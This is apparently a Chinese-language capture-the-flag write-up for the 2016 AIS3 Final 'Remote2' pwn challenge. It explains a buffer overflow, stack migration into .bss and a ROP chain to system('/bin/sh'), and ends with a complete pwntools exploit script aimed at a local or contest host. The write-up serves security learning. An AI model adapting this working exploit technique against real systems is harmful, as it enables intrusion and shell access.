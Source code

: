 title: '[2016 AIS3 FINAL] Remote2'
authot: Naetw
tags:
  - ROP
  - stack migration
categories:
  - write-ups
date: 2016-08-29 20:33:00
---

## Description

> 這題雖然沒在時間內解出來，但是在回家路上靈光乍現還是來寫一下好了
> P.S 由於 **@Brainsp8210** 的 payload 太漂亮了其實可以直接看他的----->[傳送門][brain]：
> 這題應該要會的，就是一個比較麻煩的 **Stack Migration**，只能說自己經驗值不夠，沒有第一時間想到解法Orz

## Exploit

一開始先用 `$ file pwn2` 看了一下發現是 `strip` 過的 binary，就超級不想看的QQ

`$ ./pwn2` 就噴一個`sh: 1: lsh: not found`，然後就停在那不知道在幹嘛，於是用 [Qira][qira] 追一下，隨便送幾個 AAAA 然後發現他在做 `read`，但是.....他是 1 byte 1 byte 的讀，然後最多可以讀 64 bytes，他會用 `[rbp-0x4]` 的 4 bytes 來判斷現在讀了多少 bytes 了

```
4005a3:       83 45 fc 01             add    DWORD PTR [rbp-0x4],0x1
4005a7:       83 7d fc 3f             cmp    DWORD PTR [rbp-0x4],0x3f
```

從這段可以發現，64 bytes 全部讀完可以剛好蓋到 **ret address** 控制他的 **control flow**

```
400582:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
400585:       48 8d 55 d0             lea    rdx,[rbp-0x30]
400589:       48 01 d0                add    rax,rdx
40058c:       ba 01 00 00 00          mov    edx,0x1
400591:       48 89 c6                mov    rsi,rax
400594:       bf 00 00 00 00          mov    edi,0x0
400599:       e8 a2 fe ff ff          call   400440 <read@plt>
```

而且因為他要讀入的地方會受 `[rbp-0x4]` 而決定，所以也不能透過改那邊的值多蓋幾個 bytes，所以就是控制 **rbp** 還有 **ret address** 來做到 `*Stack Migration*`

payload#1:

```python
payload = 'A'*44 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start)
```

這邊的 `'\x2c' + '\x00'*3` 是剛好蓋到 `rbp-0x4` 的地方 `0x2c == 44` 剛好代表前面已經讀入的 44 bytes 才能讓後面 payload 順利讀進去 stack 上，蓋完 `'\x2c' + '\x00'*3` 後下一格就是 `rbp` 的位置，為了要達到 `*Stack Migration*`，要把 `rbp` 控制到空的 buffer 上，也就是控制程式的 `Stack Frame`

找 `.bss` 段中沒有用到的地方來做寫入

```
00601000-00602000 rw-p 00001000 08:01 2878868
```

可以從後面找，比較不會影響到前面原有的東西，在這裡我的做法需要兩個 buffer，然後再 buffer1 的 **ret address** 後面蓋成完整的 `*ROP Chain*`
	
```python
buffer1 = 0x602000 - 0x100
buffer2 = buffer1 + 0x20 + 0xc
```

這邊的 `buffer2` 需要特別控制，因為在讀完 `buffer1` 跟 `buffer2` 之後需要再跳回 `buffer1` 之後直接讓他 `ret` 那邊執行疊好的 `*ROP Chain*`，而在跳回 `buffer1` 時，他一樣會檢查 `[rbp-0x4]` 的值，因此我們在讀 `buffer2` 的時候就必須讓他把 `rbp-0x4` 的內容改成 `0x00000000` 所以除了將 `buffer1` 往下拉 `0x20` 個 bytes 之外還需要多拉 `0xc` 這樣寫入的頭就會在 `rbp-0x4` 的地方

另外還有一個需要特別注意的是，在 `call read` 的時候程式會在 `buffer` 的頭減掉 `0x8` 的地方放上 `0x40059e`，在每次 call 完 read 之後會執行那段 code，重新回到迴圈繼續寫入，因此在 buffer2 的時候，需要在當前 `rsp-0x8` 的位置放置 `0x40059e`

payload#2, 3:

```python
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer2) + p64(read_start))
r.send('\x00'*4 + 'A'*8 + p64(read_judge) + p64(sh) + p64(system) + 'A'*8 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
```

最後再回到 buffer1 把 ret address 蓋成 `pop rdi ; ret`，他便會將剛剛放的 `address of /bin/sh` pop 到 rdi 然後 ret 執行 `system` 便能成功拿到 `shell`

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('final.ais3.org', 35171)

pop_rdi_ret = 0x0000000000400623

system = 0x400430

sh = 0x400645

buffer1 = 0x602000-0x100

buffer2 = buffer1+0x20+0xc

read_start = 0x400581

read_judge = 0x40059e

r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer2) + p64(read_start))
raw_input('#')
r.send('\x00'*4 + 'A'*8 + p64(read_judge) + p64(sh) + p64(system) + 'A'*8 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
raw_input('@')
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(0xdeadbeef) + p64(pop_rdi_ret))

r.interactive()
```

[qira]: https://github.com/BinaryAnalysisPlatform/qira
[brain]: https://github.com/briansp8210
